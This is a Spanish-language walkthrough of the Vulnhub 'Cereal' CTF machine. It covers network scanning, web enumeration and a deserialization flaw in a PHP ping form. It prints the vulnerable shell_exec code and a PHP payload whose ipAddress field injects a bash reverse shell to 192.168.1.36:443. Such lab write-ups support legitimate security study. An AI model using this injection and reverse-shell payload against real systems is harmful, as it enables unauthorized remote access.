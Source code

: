 Primero descargamos la máquina desde vulnhub

Escaneando los puertos abiertos le damos a la que dice VMware porque claramente es esa
```
arp-scan  --localnet
```
![[Pasted image 20240615001531.png]]
y escaneamos que puertos tiene abierto: 
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.37 -oG allPorts
```
Ahora utilizamos nuestro script de bash para quedarme solo con los puertos qeu estén abiertos
```
#!/bin/bash

extractPorts () {
    echo "[*] Starting extraction process..." # Línea de depuración

    if [ -z "$1" ]; then
        echo "[!] No input file provided."
        return 1
    fi

    if [ ! -f "$1" ]; then
        echo "[!] File '$1' does not exist."
        return 1
    fi

    echo "[*] Reading file: $1" # Línea de depuración

    # Extract open ports and join them with commas
    ports=$(grep -oP '\d{1,5}/open' "$1" | awk -F '/' '{print $1}' | xargs | tr ' ' ',')
    echo "[*] Ports found: $ports" # Línea de depuración

    # Extract the IP address from the file
    ip_address=$(grep -oP '^Host: \K.*(?= \(\))' "$1" | head -n 1)
    echo "[*] IP Address found: $ip_address" # Línea de depuración

    # Output extraction information to a temporary file
    echo -e "\n[*] Extracting Information... \n" > extractPorts.tmp
    echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
    echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
    
    # Copy ports to clipboard
    echo "$ports" | tr -d '\n' | xclip -sel clip
    
    # Notify user that ports have been copied to clipboard
    echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
    
    # Display the contents of the temporary file
    cat extractPorts.tmp
    
    # Remove the temporary file
    rm extractPorts.tmp
}

# Llamada a la función con el argumento del archivo
extractPorts "$1"
```
Utilizamos nmap para que enumere los puertos
```
nmap -sCV -p21,22,80,139,445,3306,11111,22222,22223,33333,33334,44441,44444,55551,55555 192.168.1.37 -oN targeted
```
Hacemos un ataque
```
gobuster dir -u http://192.168.1.37/ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
Para que la máquina reconozco el servidor de la máquina víctima nos vamos a /etc/host y agregamos la sig línea:
![[Pasted image 20240615014119.png]]
## Consejo
(Tabmién probar el gobuster por todos los puertos disponibles)
Cuando te lleva la web al buscador y no directamente a la página, hacemos un
```
about:config
browser.fixup.domainsuffixwhitelist.ctf
```
y lo ajustas en boolean, volvamos a la máquina

buscamos dentro del puerto 44441 los dominios
```
gobuster vhost -u http://cereal.ctf:44441/ -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 20
```
Y descubrimos una página gracias a buscar en este puerto que es el secure.cereal.ctf
![[Pasted image 20240615020651.png]]
si enviamos un paquete y escuchamos con tcpdump
![[Pasted image 20240615020722.png]]
Osea que podríamos inyectarle comandos porque detrás se está ejecuntando una query así:
![[Pasted image 20240615020854.png]]
y yo podria comentar lo útlimo y me lo interpretaría de la siguiente manera:
![[Pasted image 20240615020933.png]]
```
gobuster dir -u http://cereal.ctf:44441/ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20
```
```
gobuster vhost -u http://cereal.ctf:44441/ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php.bak
```
damos con la url: http://secure.cereal.ctf:44441/php.js
le metemos un view-source:
view-source:http://secure.cereal.ctf:44441/php.js
Donde no está sanitizado![[Pasted image 20240615023511.png]]
```php
<?php

class pingTest {
 public $ipAddress = "127.0.0.1";
 #cambiamos la ip 
 public $isValid = False;
 #seteamos a true
 public $output = "";

 function validate() {
 #Esto se ejecuta cuando sea false, y eso pasa cuando la ip no es real
  if (!$this->isValid) {
   if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
   {
    $this->isValid = True;
    #Sustituye Ip addres por lo que le indicas
   }
  }
  $this->ping();

 }
#Se ejecuta cuando es true
 public function ping()
        {
  if ($this->isValid) {
  #ESTO NO ESTA SANITIZADO PORQUE CONFÍA EN EL INPUT DEL CLIENTE
   $this->output = shell_exec("ping -c 3 $this->ipAddress");
  }
        }

}
#Si he proporcionado un valor para el objeto
if (isset($_POST['obj'])) {
 $pingTest = unserialize(urldecode($_POST['obj']));
} else {
 $pingTest = new pingTest;
}

$pingTest->validate();

echo "<html>
<head>
<script src=\"http://secure.cereal.ctf:44441/php.js\"></script>
<script>
function submit_form() {
  var object = serialize({ipAddress: document.forms[\"ipform\"].ip.value});
  object = object.substr(object.indexOf(\"{\"),object.length);
  object = \"O:8:\\\"pingTest\\\":1:\" + object;
  document.forms[\"ipform\"].obj.value = object;
  document.getElementById('ipform').submit();
}
</script>
<link rel='stylesheet' href='http://secure.cereal.ctf:44441/style.css' media='all' />
<title>Ping Test</title>
</head>
<body>
<div class=\"form-body\">
<div class=\"row\">
    <div class=\"form-holder\">
 <div class=\"form-content\">
     <div class=\"form-items\">
  <h3>Ping Test</h3>

  <form method=\"POST\" action=\"/\" id=\"ipform\" onsubmit=\"submit_form();\" class=\"requires-validation\" novalidate>

      <div class=\"col-md-12\">
   <input name=\"obj\" type=\"hidden\" value=\"\">
         <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
      </div>
  <br />
      <div class=\"form-button mt-3\">
   <input type=\"submit\" value=\"Ping!\">
   <br /><br /><textarea>$pingTest->output</textarea>
      </div>
  </form>
     </div>
 </div>
    </div>
</div>
</div>
</body>
</html>";

?>
```
Si lo interceptamos en Burpsuite la misma petición se puede ver urlencodeada
Ese de acá
![[Pasted image 20240615030143.png]]
Entonces lo que nos interesa es pasar la verificación y que se ejecute directamente la ip sin ser necesariamente una ip. Vamos con un file llamado "Sanatize"
```
<?php

class pingTest {
 public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.1.36/443 0>&1'";
 public $isValid = True;
 public $output = "";
}

echo urlencode(serialize(new pingTest));
?>
```

Ejecutamos el código y tenemos el nuevo [[objeto]], el cual estaba expuesto en el burpsuite
![[Pasted image 20240615030355.png]]
Poniendome en escucha por el puerto 443 entablo la reverse shell
![[Pasted image 20240615031111.png]]